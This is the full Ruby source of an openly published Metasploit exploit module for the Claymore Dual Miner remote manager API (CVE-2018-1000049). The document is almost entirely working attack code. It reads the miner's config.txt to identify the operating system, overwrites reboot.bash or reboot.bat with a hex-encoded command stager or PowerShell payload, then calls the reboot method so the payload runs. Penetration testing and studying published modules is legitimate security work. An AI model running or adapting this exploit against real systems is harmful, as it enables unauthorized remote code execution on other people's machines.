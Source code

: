 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    require 'msf/core/exploit/powershell'

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::Tcp
      include Msf::Exploit::CmdStager
      include Msf::Exploit::Powershell

      def initialize(info = {})
        super(update_info(info,
          'Name'            => 'Nanopool Claymore Dual Miner APIs RCE',
          'Description'     => %q{
            This module takes advantage of miner remote manager APIs to exploit an RCE vulnerability.
          },
          'Author'          =>
            [
              'reversebrain@snado', # Vulnerability reporter
              'phra@snado'          # Metasploit module
            ],
          'License'         => MSF_LICENSE,
          'References'      =>
            [
              ['EDB', '44638'],
              ['CVE', '2018-1000049'],
              ['URL', 'https://reversebrain.github.io/2018/02/01/Claymore-Dual-Miner-Remote-Code-Execution/']
            ],
          'Platform'        => ['win', 'linux'],
          'Targets'         =>
            [
              [ 'Automatic Target', { 'auto' => true }],
              [ 'Linux',
                {
                  'Platform' => 'linux',
                  'Arch' => ARCH_X64,
                  'CmdStagerFlavor' => [ 'bourne', 'echo', 'printf' ]
                }
              ],
              [ 'Windows',
                {
                  'Platform' => 'windows',
                  'Arch' => ARCH_X64,
                  'CmdStagerFlavor' => [ 'certutil', 'vbs' ]
                }
              ]
            ],
          'Payload' =>
            {
              'BadChars' => "\x00"
            },
          'DisclosureDate'  => 'Feb 09 2018',
          'DefaultTarget'   => 0))

        register_options(
          [
            OptPort.new('RPORT', [ true, 'Set miner port', 3333 ])
          ])
        deregister_options('URIPATH', 'SSL', 'SSLCert', 'SRVPORT', 'SRVHOST')
      end

      def select_target
        data = {
          "id"      => 0,
          "jsonrpc" => '2.0',
          "method"  => 'miner_getfile',
          "params"  => ['config.txt']
        }.to_json
        connect
        sock.put(data)
        buf = sock.get_once || ''
        tmp = StringIO.new
        tmp << buf
        tmp2 = tmp.string
        hex = ''
        if tmp2.scan(/\w+/)[7]
          return self.targets[2]
        elsif tmp2.scan(/\w+/)[5]
          return self.targets[1]
        else
          return nil
        end
      end

      def check
        target = select_target
        if target.nil?
          return Exploit::CheckCode::Safe
        end
        data = {
          "id"      => 0,
          "jsonrpc" => '2.0',
          "method"  => 'miner_getfile',
          "params"  => ['config.txt']
        }.to_json
        connect
        sock.put(data)
        buf = sock.get_once || ''
        tmp = StringIO.new
        tmp << buf
        tmp2 = tmp.string
        hex = ''
        case target['Platform']
        when 'linux'
          hex = tmp2.scan(/\w+/)[5]
        when 'windows'
          hex = tmp2.scan(/\w+/)[7]
        end
        str = Rex::Text.hex_to_raw(hex)
        if str.include?('WARNING')
          return Exploit::CheckCode::Vulnerable
        else
          return Exploit::CheckCode::Detected
        end
      rescue Rex::AddressInUse, ::Errno::ETIMEDOUT, Rex::HostUnreachable, Rex::ConnectionTimeout, Rex::ConnectionRefused, ::Timeout::Error, ::EOFError => e
        vprint_error(e.message)
        return Exploit::CheckCode::Unknown
      ensure
        disconnect
      end

      def execute_command(cmd, opts = {})
        target = select_target
        case target['Platform']
        when 'linux'
          cmd = Rex::Text.to_hex(cmd, '')
          upload = {
            "id"      => 0,
            "jsonrpc" => '2.0',
            "method"  => 'miner_file',
            "params"  => ['reboot.bash', "#{cmd}"]
          }.to_json
        when 'windows'
          cmd = Rex::Text.to_hex(cmd_psh_payload(payload.encoded, payload_instance.arch.first), '')
          upload = {
            "id"      => 0,
            "jsonrpc" => '2.0',
            "method"  => 'miner_file',
            "params"  => ['reboot.bat', "#{cmd}"]
          }.to_json
        end

        connect
        sock.put(upload)
        buf = sock.get_once || ''
        trigger_vulnerability
      rescue Rex::AddressInUse, ::Errno::ETIMEDOUT, Rex::HostUnreachable, Rex::ConnectionTimeout, Rex::ConnectionRefused, ::Timeout::Error, ::EOFError => e
        fail_with(Failure::UnexpectedReply, e.message)
      ensure
        disconnect
      end

      def trigger_vulnerability
        execute = {
          "id"      => 0,
          "jsonrpc" => '2.0',
          "method"  => 'miner_reboot'
        }.to_json
        connect
        sock.put(execute)
        buf = sock.get_once || ''
        disconnect
      end

      def exploit
        target = select_target
        if target.nil?
          fail_with(Failure::NoTarget, 'No matching target')
        end
        if (target['Platform'].eql?('linux') && payload_instance.name !~ /linux/i) ||
          (target['Platform'].eql?('windows') && payload_instance.name !~ /windows/i)
          fail_with(Failure::BadConfig, "Selected payload '#{payload_instance.name}' is not compatible with target operating system '#{target.name}'")
        end
        case target['Platform']
        when 'linux'
          execute_cmdstager(flavor: :echo, linemax: 100000)
        when 'windows'
          execute_cmdstager(flavor: :vbs, linemax: 100000)
        end
      end
    end